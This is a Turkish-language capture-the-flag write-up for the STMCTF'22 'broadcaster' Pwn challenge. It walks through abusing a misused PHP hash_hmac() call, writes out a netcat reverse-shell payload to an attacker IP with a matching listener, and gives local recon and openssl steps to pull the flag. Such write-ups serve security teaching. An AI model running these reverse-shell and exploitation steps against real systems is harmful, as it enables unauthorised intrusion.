





# STMCTF'22 Final

## Soru İsmi:

`broadcaster`

### Kategori:
 - `Pwn`

### Soru:
```
TR:
Eğer flag'a ulaşmak istiyorsan unutma ki sadece belli kişilere cevap verilmektedir.

EN:
If you want to reach the flag, remember that only certain people are answered.
```

---

## Çözüm:
```
robots.txt dosyasına bakıldığında POST'un gönderildiği buggy.php dosyasının ascii halini tutan dosyanın yeri base64 koduyla belirtildiği anlaşılır.
```

```
buggy.txt dosyasından hash_hmac() fonksiyonun yanlış kullanıldığı (birinci ve üçüncü argümanların yerlerinin karıştırıldığı) anlaşılmaktadır.

buggy.txt deki koşulları aşacak şekilde saldırganın kontrolünde olan **user, pass, hash_algo** parametrelerle  hesaplanır. Ve saldırı makinesinden **nc -vlp 4444** açılarak gelecek istekler için dinlemeye başlanır.
```
`$hash = hash_hmac("whirlpool", "nc -e /bin/bash 172.17.0.1 4444", "sha256");`

`nc -vlp 4444`


```
Sisteme **www-data** kullanıcısı olarak eriştikten sonra akra planda çalışan process'lere bakıldığında **flag_broadcaster.py** dikkat çekmektedir.
```
`ps auxf`


```
flag_broadcaster.py dosyası okuma izni olmadığından içeriğine bakılamaz. Bu aşamada mevcut kullanıcının ENV değişkenlerine göz atıldığında base64 ile encode edilmiş olan $DF dikkat çekmektedir ve bu değişken decode eildiğinde **STMCTF** olduğu görülür. Bu aşamada bu bilgiler bir iş yaramasa da kenar durmalıdır (İleride kullanılacaklar).
```
`env`

`echo $DF | base64 -d`


```
**flag_broadcaster.py** adı yayın yapan bir servise benzediği için `netstat -antup` komutuyla açık servisler listelenir ve flag_broadcaster'ın 9989 nolu port LISTEN durumunda olduğu görülür.
```

```
Bu porta yapılan temel bağlantı istekleri bir sonuç vermiyecektir. Bu durumda farklı olarak bir TLS bağlantı isteği denemesi yapılabilir. Bunun için de sistem yüklü olan **openssl** paketi kullanılabilir.
```
`openssl s_client -connect 127.0.0.1:9989`
```
Bağlantı sağlanınca verilen her komutun büyük harf olarak geri gönderildiği anlaşılmaktadır. Daha önceden ENV değişkenlerinden çıkardığımız **STMCTF** kelimesini gönderince ise FLAG cevap olarak alınacaktır.
```


`NOT: Flag'ler farklılık gösterebilir.`